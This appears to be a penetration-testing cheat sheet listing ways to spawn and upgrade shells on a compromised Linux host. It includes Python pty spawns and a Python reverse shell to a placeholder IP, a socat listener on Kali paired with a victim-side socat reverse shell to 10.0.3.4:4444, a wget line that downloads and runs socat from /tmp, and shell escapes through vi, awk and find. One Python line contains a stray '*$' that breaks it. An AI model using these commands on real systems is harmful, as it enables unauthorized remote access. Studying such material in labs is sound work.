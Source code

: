 
### Python pty module

	python -c 'import pty; pty.spawn("/bin/sh")'
	
	python3 -c 'import pty; pty.spawn("/bin/sh")'
	
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(), *$ 1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### Full tty

[https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

### Perl

	perl —e 'exec "/bin/sh";'

### Using socat

On Kali (listen):
	
	socat file:`tty`,raw,echo=0 tcp-listen:4444
	
On Victim (launch):
	
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
	
If not download in Victim:
	
	wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

### Other ways

	/bin/sh -i
	
	echo os.system('/bin/bash')
	
	exec "/bin/sh";

### Related Shell Escape Sequences
Vi / Vim

	:!bash
	:set shell=/bin/bash
	:shell

awk

	awk 'BEGIN {system("/bin/bash")}'

find

	find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;